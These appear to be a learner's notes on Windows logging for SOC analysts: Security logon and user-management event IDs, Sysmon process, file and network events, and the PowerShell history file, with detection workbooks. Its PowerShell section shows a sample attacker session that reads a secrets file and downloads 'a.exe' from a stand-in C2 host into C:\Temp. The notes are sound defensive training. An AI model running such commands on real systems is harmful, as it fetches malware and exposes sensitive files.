


# Windows Logging for SOC

## Learning Objectives

- Understand how to find and interpret important Windows event logs
- Learn invaluable for monitoring log sources like sysmon and powershell
- Prepare for using the mentioned logs in SOC-SIM and the following rooms
- Practice your log analysis skills on multiple event log datasets

## What is Logged

Actions taken on a device result in an antry to some journal, by the OS.  
Includes time, action details, and user.  

Logging supports:
- incdient Response: Log show when and how an attack occurred
- Threat Hunting: Logs permit searching for signs of malicious activity
- Alerting and Triage: Logs are the building block of any alert or detection rule  

### Anatomy of a Log Entry

Windows logs are stored in binary at `C:\Windows\System32\winevt\Logs`  

  

Each EVTX file corresponde to a specfiic log category.

### Reading Event Logs

Open "Event Viewer" using Windows Search; use `Win+R` and type `eventvwr` and press enter.  

1. **Log Sources**: Every EVTX file correspondes to a single item on the left panel
2. **Log List**: Each row is a signle event contaiing event properties
3. **Log Details**: Actual content of the log, in plaintext or XML format  
4. **Filters Menu**: Use a variety of parameters to filter logs.  

  

### Logged Questions  

#### Looking at the last screenshot, which event ID describes a successful login? (Answer format: LogSource / ID, e.g. Application / 8194)

`Security/4624`

## Security Log: Authentication

### Overview

As a SOC analyst, you cannot know in advance which attack you will handle next or which logs you will need during triage. However, out of all Windows logs enabled by default, the **Security** event log usually provides the most value. Start with two of the most important Security events: **Successful Logon (4624)** and **Failed Logon (4625)**.

| Event ID | Purpose | Logging | Limitations |
|---|---|---|---|
| **4624**<br>(Successful Logon) | Detect suspicious RDP or network logins and identify the attack starting point. | Logged on the target machine being accessed. | **Noisy.** Loaded servers may generate hundreds of logon events per minute. |
| **4625**<br>(Failed Logon) | Detect brute force, password spraying, or vulnerability scanning. | Logged on the target machine being accessed. | **Inconsistent.** These logs contain caveats that can lead to incorrect interpretation. |

### Structure of 4624

A typical Windows server can generate tens of login events per minute, and every login event often contains many fields. For most L1/L2 cases, you can focus on a few core event fields. Additional field and logon type details are available in the [Event ID Encyclopedia](https://www.ultimatewindowssecurity.com/securitylog/encyclopedia/event.aspx?eventid=4624).


### Usage of 4624/4625

Even experienced IT administrators often rely on security experts to distinguish suspicious events from normal ones. Treat the workbooks below as foundational SOC knowledge.

#### Detect RDP Brute Force

1. Open Security logs and filter for event ID **4625** (failed login attempts).
2. Look for events with Logon Type **3** and **10**:
   - **3**: Network logon. For most modern systems, RDP attempts may appear as type 3 because [Network Level Authentication (NLA)](https://superops.com/rmm/what-is-network-level-authentication) is enabled by default.
   - **10**: RemoteInteractive/RDP logon. This is more likely on older or misconfigured systems where NLA is not used.
3. Review every matching event. Key red flags include:
   - Many attempted usernames, such as **admin**, **helpdesk**, or **cctv**. This can indicate password spraying.
   - Many login failures against a single account, usually **Administrator**. This can indicate brute force.
   - A **Workstation Name** that does not match the corporate naming pattern, such as **kali** instead of **THM-PC-06**.
   - An unexpected source IP, such as a printer attempting to connect to a Windows Server.

#### Analyse RDP Logons

1. Open Security logs and filter for event ID **4624** (successful logins).
2. Look for Logon Type **10** (RDP logins).
   - If [NLA](https://superops.com/rmm/what-is-network-level-authentication) is enabled, every RDP logon event is usually preceded by another **4624** event with Logon Type **3**.
   - To identify the real **Workstation Name**, check the preceding Logon Type **3** event.
3. Treat either a preceding brute force pattern or a suspicious source IP/hostname as a red flag.
4. If the login appears malicious, determine what happened next:
   - Windows assigns a **Logon ID** to every successful login, such as `0x5D6AC`.
   - The **Logon ID** is a unique session identifier. Save it for later correlation.

## Security Log: User Management

### Overview

> - Hey Michael, is `svc_sysrestore` your account? I have never seen it in the user list before.
> - No, but it is likely some Windows-related account; better not touch it to avoid problems later.

This kind of IT discussion can lead to missed attacker activity. With authentication and **user management** events, it is possible to reconstruct the history of a user account.

| Event ID | Description | Malicious Usage |
|---|---|---|
| **4720** / **4722** / **4738** | A user account was created, enabled, or changed. | Attackers may create a backdoor account or enable an old account to avoid detection. |
| **4725** / **4726** | A user account was disabled or deleted. | Advanced threat actors may disable privileged SOC accounts to slow response actions. |
| **4723** / **4724** | A user changed their password, or a user's password was reset. | With enough permissions, threat actors may reset a password and then access the target account. |
| **4732** / **4733** | A user was added to or removed from a security group. | Attackers often add backdoor accounts to privileged groups such as [Administrators](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups#administrators). |

### Structure of User Management Events

User management events have a similar structure and can be split into three parts: who performed the action, who or what was targeted, and what changed.

1. **Subject**: The account performing the action. Note the **Logon ID** field; you can use it to correlate this event with the preceding **4624** login event.
2. **Object**: The target of the action. This field can use different labels depending on the event ID, such as **New Account** or **Member**, but it represents the affected account, group, or object.
3. **Details**: The specific change. Examples include the target group for **4732** and **4733**, or new user attributes such as full name and password expiration settings for **4720**.


### Usage of User Management Events

Many real breaches include user manipulation events. For example, [ransomware actors reset all user accounts to a single password](https://thedfirreport.com/2023/04/03/malicious-iso-file-leads-to-domain-wide-ransomware/#:~:text=bat%0A2.bat-,The%20script%20pass.bat,-proceeded%20to%20reset) to slow recovery, and [attackers have created new admin accounts](https://thedfirreport.com/2025/02/24/confluence-exploit-leads-to-lockbit-ransomware/#persistence:~:text=created%20a%20new%20account) for persistence.

#### Hunt for Backdoored Users

1. Open Security logs and filter for event IDs **4720** and **4732**.
2. Manually review every event. Key red flags include:
   - No one from the IT department can confirm the action.
   - Changes occurred during non-working hours or on weekends.
   - The subject username is unknown or unexpected, such as `adm.old.2008` creating new Windows users.
   - The target username does not follow the usual naming pattern, such as `backup` instead of `thm_svc_backup`.
3. If the action is confirmed as malicious, find the related login details:
   - Copy the **Logon ID** field from the **4720** or **4732** event.
   - Find the corresponding login event with the same **Logon ID**.
   - Use the authentication workbooks above for further source and session analysis.

## Sysmon: Process Monitoring

### Overview

> - Sarah, have you run any files from the Internet recently?
> - Of course not. Why? I never open untrusted files.
> - Your IP is trying to brute-force our production servers.

This scenario shows why SOC teams need more detailed logging than authentication attempts alone. Even when you know who is breached, you still need to know how the breach happened. Process monitoring helps answer that question. Windows process launch events can be captured in two main ways:

| Event Code | Purpose | Limitations |
|---|---|---|
| **4688**<br>(Security Log: Process Creation) | Logs an event every time a new process is launched, including command-line and parent process details. | Disabled by default. It must be enabled using Microsoft's [command-line process auditing documentation](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/component-updates/command-line-process-auditing). |
| **1**<br>(Sysmon: Process Creation) | Replaces basic 4688-style process creation monitoring with more advanced fields, such as process hash and signature. | Sysmon is an external tool and is not installed by default. See the Microsoft Sysinternals [Sysmon page](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon). |

### Sysmon vs Security Log

Sysmon is a free tool from the Microsoft Sysinternals suite and has become a de facto standard for advanced monitoring in addition to the default Windows system logs. This document focuses on analyzing Sysmon logs, but additional Sysmon concepts are available in the TryHackMe [Sysmon room](https://tryhackme.com/room/sysmon).

If choosing between enabling the basic and noisy **4688** event ID or installing Sysmon to collect more powerful and flexible logs, Sysmon is usually the better option. Once Sysmon is installed, its logs are available in Event Viewer under:

```text
Applications & Services -> Microsoft -> Windows -> Sysmon -> Operational
```



### Event ID 1 in Action

Sysmon event ID **1** contains many fields. The most important fields can be grouped as follows:

- **Process Info**: Context for the launched process, including its PID, path/image, and command line.
- **Parent Info**: Context for the parent process, which is useful for building a process tree or attack chain.
- **Binary Info**: Process hash, signature, and Portable Executable (PE) metadata. These fields support more advanced analysis.
- **User Context**: The user running the process and, most importantly, the **Logon ID**, which can be correlated with Security logs.

Because most endpoint attacks require some process to execute, process monitoring is one of the most important log sources for SOC teams.

#### Analyse Process Launch

1. Open Sysmon logs and filter for event ID **1**.
2. Review fields from the process and binary information groups. Key red flags include:
   - The **Image** path is in an uncommon directory, such as `C:\Temp` or `C:\Users\Public`.
   - The process has a suspicious name, such as `aa.exe` or `jqyvpqldou.exe`.
   - The process hash, such as MD5 or SHA256, matches malware in [VirusTotal](https://www.virustotal.com/gui/home/search).
3. Review fields from the parent process group. Key red flags include:
   - The parent process has suspicious characteristics from step 2, such as suspicious name, path, or hash.
   - The parent process is unexpected, such as Notepad launching CMD commands.
4. If the verdict is still unclear, move up the process tree:
   - Find the preceding event where **ProcessId** equals the **ParentProcessId** in the event you are analyzing.
   - Analyze that parent event using steps 2 and 3.
5. Trace the attack chain by filtering Security and Sysmon events with the same **Logon ID**.

## Sysmon: Files and Networks

### Overview

Sysmon provides more than process creation events. It can log file and registry changes, network connections, DNS queries, and other crucial activities. It can also be configured to log or exclude specific activity, unlike many default Windows logs. This document references [Florian Roth's Sysmon configuration](https://github.com/Neo23x0/sysmon-config/blob/master/sysmonconfig-export.xml), but teams should tune Sysmon to fit their own environments.

| Event ID | Security Log Alternative | Event Purpose |
|---|---|---|
| **11 / 13**<br>(File Create / Registry Value Set) | **4656** for file changes and **4657** for registry changes; both are disabled by default. | Detect files dropped by malware or registry changes, such as persistence modifications. |
| **3 / 22**<br>(Network Connection / DNS Query) | No direct alternative. Comparable visibility requires additional firewall and DNS configuration. | Detect traffic from untrusted processes or connections to known malicious destinations. |

### Structure of Sysmon Events



Although each Sysmon event ID has its own purpose, many fields follow a similar structure. Some critical fields, such as **Logon ID** or parent process information, may be missing from file, registry, network, or DNS events. Use the **ProcessId** field to find the corresponding event ID **1** (Process Creation) and recover the full process context.

### Usage of Sysmon Events

Process creation events often provide enough context to detect common breach scenarios, but additional logs may be required to reconstruct the full attack chain. For example, network logs can identify data exfiltration destinations, and registry change logs can identify system configuration changes made by threat actors.

#### Analyse Process Activities

1. Copy the **ProcessId** field from the event ID **1** process creation event.
2. Search for other Sysmon events with the same **ProcessId**.
3. Review network connection events. Key red flags include:
   - Connections to external IPs on port **80** or on non-standard ports such as **4444**.
   - Connections to known malicious IPs, such as those confirmed in [VirusTotal](https://www.virustotal.com/gui/home/search).
   - DNS queries to suspicious domains, such as `*.top`, `*.click`, or `hpdaykfpadvsl.com`.
4. Review file and registry change events. Key red flags include:
   - Files dropped into staging directories, such as `C:\Temp` or `C:\Users\Public`.
   - Dropped scripts or executables, such as `.bat`, `.ps1`, `.exe`, or `.com` files.
   - Created files or registry keys that are used for persistence.

## PowerShell: Logging Commands

### Overview

PowerShell is a powerful tool built into Windows, and attackers often abuse it because it is trusted and can support malware download, system discovery, data exfiltration, and advanced techniques such as process injection.

You will not capture all PowerShell activity by using process creation logs alone. For example, the command prompt below may generate a single process creation event for `powershell.exe`, but the commands entered inside that PowerShell session still matter.

Commands entered in a PowerShell terminal:

```powershell
PS C:\> Get-ChildItem
PS C:\> Get-Content secrets.txt
PS C:\> Get-LocalUser; Get-LocalGroup
PS C:\> Invoke-WebRequest http://c2server.thm/a.exe -OutPath C:\Temp\a.exe
```

In this example, the threat actor read a sensitive file, viewed local users and groups, and downloaded malware to the Temp directory. However, process creation monitoring may only show that `powershell.exe` launched, without showing the commands executed inside the session.

### How It Works

Every program has a purpose: `firefox.exe` is a web browser, `notepad.exe` is a text editor, and `whoami.exe` outputs the current username. During normal activity, new tasks often require launching new programs, which creates additional process logs.

PowerShell is different because it is an all-in-one management tool. After `powershell.exe` launches, a user can run many commands within the same terminal session without creating a new process for each command. This is why Sysmon process creation logs alone are not enough for PowerShell command visibility.

### PowerShell History File

There are multiple methods to monitor PowerShell, each with its own strengths and weaknesses. While AMSI, Transcript Logging, and other approaches are worth researching, this lesson focuses on a simple and effective artifact: the PowerShell history file.

```text
C:\Users\<USER>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

The PowerShell history file is a plain text file automatically created by PowerShell. It records commands typed into a PowerShell window and updates when the user presses **Enter** to submit a command.


### Key Notes

- The history file is useful for tracking malicious actions such as system discovery or malware download.
- The history file is created for each user. If five users actively use the system, you may see five separate history files.
- The history file survives system reboots unless it is manually deleted, and it can preserve PowerShell commands over time.
- The history file does not log command output and does not show script content, such as commands executed by running `powershell .\script.ps1`.
